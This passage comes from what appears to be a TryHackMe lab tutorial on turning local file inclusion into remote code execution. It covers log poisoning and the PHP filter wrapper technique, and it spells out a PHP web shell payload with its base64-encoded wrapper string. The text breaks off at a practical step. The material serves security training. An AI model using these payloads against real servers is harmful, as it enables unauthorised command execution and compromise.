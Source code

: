 The code will then be logged in the server's access logs.

![Apache access log containing the injected PHP code](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/d9c19f6c916c790bb4fa94e09a5fcaef.png)

The attacker then uses LFI to include the access log file: `?page=/var/log/apache2/access.log`

![Injected PHP code in the web access log has been executed](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/f4a675e26aac4f257dfd24942bcdbd0f.png)

## LFI2RCE - Wrappers

***

**PHP Wrappers**

PHP wrappers can also be used not only for reading files but also for code execution. The key here is the `php://filter` stream wrapper, which enables file transformations on the fly. Take the PHP base64 filter as an example. This method allows attackers to execute arbitrary code on the server using a base64-encoded payload.&#x20;

For example, go to [http://10.10.172.219/playground.php](http://10.10.172.219/playground.php).

We will use the PHP code `<?php system($_GET['cmd']); echo 'Shell done!'; ?>` as our payload. The value of the payload, when encoded to base64, will be `php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+`

|              |                  |                                                                      |
| ------------ | ---------------- | -------------------------------------------------------------------- |
| **Position** | **Field**        | **Value**                                                            |
| 1            | Protocol Wrapper | php://filter                                                         |
| 2            | Filter           | convert.base64-decode                                                |
| 3            | Resource Type    | resource=                                                            |
| 4            | Data Type        | data://plain/text,                                                   |
| 5            | Encoded Payload  | PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+ |

In the table above, `PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+` is the base64-encoded version of the PHP code. When the server processes this request, it first decodes the base64 string and then executes the PHP code, allowing the attacker to run commands on the server via the "cmd" GET parameter.

![Vulnerable application containing the PHP wrapper payload](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/0e01212213a4a512d552b55d22b7014d.png)

**Note:** It is important to not include the **\&cmd=whoami** in the input field since it will be encoded when the form is submitted. Once encoded, the backend will treat it as part of the base64 code, giving you an invalid byte sequence error.

#### Practical

***

Let's use this payload to receive the contents of the current directory:

